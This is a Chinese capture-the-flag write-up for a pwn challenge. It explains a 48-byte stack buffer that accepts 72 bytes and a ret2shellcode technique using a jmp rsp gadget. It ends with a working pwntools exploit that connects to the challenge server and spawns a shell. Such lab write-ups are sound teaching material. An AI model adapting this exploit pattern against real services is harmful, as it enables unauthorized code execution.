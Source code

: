 ![image-20200517172402454](https://image.hackerjerry.top/mini_l-ctf_wp-19.png)

基本没开。

放ida里反汇编一下

![image-20200517172543052](https://image.hackerjerry.top/mini_l-ctf_wp-20.png)

![image-20200517172505865](https://image.hackerjerry.top/mini_l-ctf_wp-21.png)

可以看到很明显的栈溢出，s只分配了48字节，但允许读入72字节。

能利用的72-48=24字节，所以构造的rop链不能太长，需要利用另一个bd函数中的`jmp rsp`调回到栈上然后执行shellcode。

![image-20200517174831881](https://image.hackerjerry.top/mini_l-ctf_wp-22.png)

>  sp/esp/rsp（16bit/32bit/64bit）栈寄存器---指向栈顶
>
> bp/ebp/rbp 栈基址寄存器---指向栈底
>
> ip/eip/rip 程序指令寄存器---指向下一条待执行指令

综上，此题是一个ret2shellcode的题。从网上找了一个原理图。

**程序的栈是从进程地址空间的高地址向低地址增长的**。但是填充是从低地址向高地址方向。

![image-20200517194756892](https://image.hackerjerry.top/mini_l-ctf_wp-23.png)

![image-20200517180255401](https://image.hackerjerry.top/mini_l-ctf_wp-24.png)

就是先将shellcode压入栈，然后填充垃圾字符，然后放置返回地址，然后在被调用函数栈中压入新的汇编指令。

当我们用常规的ret2text构造48字节字符串+ 8字节rbp+ 8字节bd函数地址(覆盖掉原返回地）

![image-20200517201320081](https://image.hackerjerry.top/mini_l-ctf_wp-25.png)

ret指令进入bd后弹出bd地址，rsp指向栈内储存的rbp的值

bd函数将rbp再push入栈中, 此时rsp再加8，指向被新压入的rbp 

bd函数执行rsp上的指令

在rsp所指向的位置 覆盖上shellcode,改变rsp的值使其指向getshelI的shellcode井再次进行跳转，完成getshell。

exp：

```python
from pwn import *
# sh = process('./hello')
sh = remote('pwn.challenge.mini.lctf.online', 10008)
context.arch = 'amd64'
context.endian = 'little'
# context.terminal = ['zsh','-c']
# gdb.attach(sh)
jrsp = 0x4006ca
payload = flat(asm(shellcraft.sh()).ljust(0x30+0x8,'a'),jrsp,asm('sub rsp,64')+asm('jmp rsp'))

sh.sendlineafter('What\'s your name?',payload)
sh.interactive() 
```
